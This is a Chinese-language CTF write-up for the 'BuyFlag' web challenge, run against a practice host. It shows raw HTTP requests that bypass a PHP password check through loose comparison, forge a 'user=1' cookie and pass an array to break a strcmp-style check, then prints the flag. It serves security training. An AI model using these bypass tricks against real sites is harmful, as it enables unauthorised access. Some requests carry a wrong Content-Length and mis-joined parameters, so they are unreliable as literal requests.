 ```yaml
---
title: 极客大挑战 2019 BuyFlag
date: 2023-10-24
categories:
  - CTF
  - Web
---
```


## 前置工作

进入靶机网页，主页没啥有用的，打开右上角 Menu，就能找到 PayFlag 选项，进入即可，此时 URL 为 `/pay.php`，可看到一些有效信息

![](https://p.sda1.dev/13/4f363ef9bae723d54d996280a2600548/image.png)

首先，我得是 CUIT 的学生（反正我不是），其次，我还得有正确的密码

这些都是空话，直接开 F12，往下翻，找到了一段被注释掉的代码，他让我把 `password` 和 `money` 通过 POST 传入，首先就得先把 `password` 的事情解决了

```php
	~~~post money and password~~~
if (isset($_POST['password'])) {
	$password = $_POST['password'];
	if (is_numeric($password)) {
		echo "password can't be number</br>";
	}elseif ($password == 404) {
		echo "Password Right!</br>";
	}
}
```

## 绕过 `password` 判断

直接看有一行 `elseif ($password == 404)`，是个**弱比较**，那太好了，如果我的 `password` = `404A` 也是成立的，此时也正好可以绕过 `is_numeric()` 的判断，此时我的 Http 请求代码如下

```http
POST /pay.php HTTP/1.1
Host: d2712315-f104-498e-8257-4113e6f4986f.node4.buuoj.cn:81
User-Agent: Apifox/1.0.0 (https://apifox.com)
Accept: */*
Host: d2712315-f104-498e-8257-4113e6f4986f.node4.buuoj.cn:81
Connection: keep-alive
Cookie: user=0
Content-Length: 13

password=404A
```

## 成为 CUITer

一般而言我们 Http 请求的 Cookie 应该是没有的，但这个就很不巧，我注意到上面的 Http 请求 Cookie 中有一个 `user=0`，通常用户鉴权的时候读的也是 Cookie，所以我就把 `user` 改为 `1`，此时我的 Http 请求代码如下

```http
POST /pay.php HTTP/1.1
Host: d2712315-f104-498e-8257-4113e6f4986f.node4.buuoj.cn:81
User-Agent: Apifox/1.0.0 (https://apifox.com)
Accept: */*
Host: d2712315-f104-498e-8257-4113e6f4986f.node4.buuoj.cn:81
Connection: keep-alive
Cookie: user=1
Content-Length: 13

password=404A
```

看回显，已经快了

```
you are Cuiter
Password Right!
Pay for the flag!!!hacker!!!
```

## 给钱

现在我要做的就是付钱，怎么付？开头那段被注释掉的代码里就告诉我们，要把 `money` POST 进去，那我们就 POST 给他 100000000，请求如下

```http
POST /pay.php HTTP/1.1
Host: d2712315-f104-498e-8257-4113e6f4986f.node4.buuoj.cn:81
User-Agent: Apifox/1.0.0 (https://apifox.com)
Accept: */*
Host: d2712315-f104-498e-8257-4113e6f4986f.node4.buuoj.cn:81
Connection: keep-alive
Cookie: user=1
Content-Length: 13

password=404A
money=100000000
```

结果回显变成了

```
you are Cuiter
Password Right!
Nember lenth is too long
```

他提示我数字长度太长了，大概率是有个 `strcmp()` 函数在搞鬼，但是攻破这个函数的方法很简单，我只需要传入一个不正常的数据类型给他，他就会崩掉，比如数组，即我把 `money=100000000` 改成 `money[]=a`，再试一遍，此时的 Http 请求代码如下

```http
POST /pay.php HTTP/1.1
Host: d2712315-f104-498e-8257-4113e6f4986f.node4.buuoj.cn:81
User-Agent: Apifox/1.0.0 (https://apifox.com)
Accept: */*
Host: d2712315-f104-498e-8257-4113e6f4986f.node4.buuoj.cn:81
Connection: keep-alive
Cookie: user=1
Content-Length: 13

password=404A
money[]=a
```

回显中就有了我想要的 Flag

```
you are Cuiter
Password Right!
flag{e7e247ff-8faa-4db2-81e5-ccd961cf7129}
```